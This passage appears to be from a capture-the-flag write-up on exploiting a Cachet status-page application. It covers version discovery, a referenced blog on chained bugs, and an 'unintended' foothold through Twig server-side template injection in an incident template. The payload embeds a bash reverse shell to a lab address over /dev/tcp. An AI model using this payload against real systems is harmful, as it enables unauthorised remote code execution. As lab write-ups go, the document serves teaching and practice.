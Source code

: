 Browsing the Cachet interface we can go to the "Settings" and it will reveal the application version:
![](images/image8.png)

### Exploitation of Cachet up to 2.4 dev
Looking on internet for vulnerabilities in this version we can find a very interesting [blog from Sonar](https://blog.sonarsource.com/cachet-code-execution-via-laravel-configuration-injection) that explains how to chain some vulnerabilities to trigger remote code execution. However, it did not work for me.

**Cachet Twig SSTI - UNINTENDED WAY**
One way to get a foothold in this machine was via Server-Side Template Injection.
Logged in as user `john` we can create an incident template and add a reverse shell to be triggered:
![](images/image10.png)
There is even a hint to use Twig syntax.
Payload:
```
{{["bash -c 'sh -i >& /dev/tcp/10.10.14.5/9001 0>&1'"]|filter("system")|join(",")}}
```
